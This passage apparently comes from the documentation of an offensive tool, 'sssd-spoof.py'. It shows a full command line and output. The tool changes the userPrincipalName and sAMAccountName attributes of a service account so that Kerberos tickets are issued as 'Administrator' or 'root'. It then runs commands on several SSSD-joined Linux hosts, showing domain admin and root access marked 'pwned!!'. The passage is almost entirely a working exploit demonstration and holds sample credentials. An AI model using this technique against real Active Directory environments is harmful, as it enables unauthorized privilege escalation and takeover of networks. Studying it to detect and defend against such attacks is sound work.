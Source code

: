 You can also target both the `userPrincipalName` and `sAMAccountName` attributes at the same time by specifying both options.

```
~$ sssd-spoof.py 'mercury.local'/'gatari':'P@ssw0rd' -tf 'targets.txt' --target-user 'svc_sql' --target-password 'P@ssw0rd123' --sam 'root' --upn 'Administrator@mercury.local' -x 'id && hostname'
[-] no KDC host specified, make sure you have a valid krb5.conf
[-] continuing with default (/etc/krb5.conf)
[*] Impacket v0.13.0.dev0+20250713.182712.930296c - Copyright Fortra, LLC and its affiliated companies 

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: userPrincipalName svc_sql@mercury.local => Administrator@mercury.local
[*] saved TGT to Administrator\@mercury.local.ccache
[*] trying: L-MGRT-APP001.mercury.local
[*] pwned!!

uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
L-MGRT-APP001.mercury.local

[*] connection closed.

[*] trying: L-PROD-WEB001.mercury.local
[*] pwned!!

uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
L-PROD-WEB001.mercury.local

[*] connection closed.

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: userPrincipalName Administrator@mercury.local => svc_sql@mercury.local
[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: sAMAccountName svc_sql => root
[*] saved TGT to root.ccache
[*] trying: L-MGRT-APP001.mercury.local
[*] pwned!!

uid=0(root) gid=0(root) groups=0(root)
L-MGRT-APP001.mercury.local

[*] connection closed.

[*] trying: L-PROD-WEB001.mercury.local
[*] pwned!!

uid=0(root) gid=0(root) groups=0(root)
L-PROD-WEB001.mercury.local

[*] connection closed.

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: sAMAccountName root => svc_sql
```

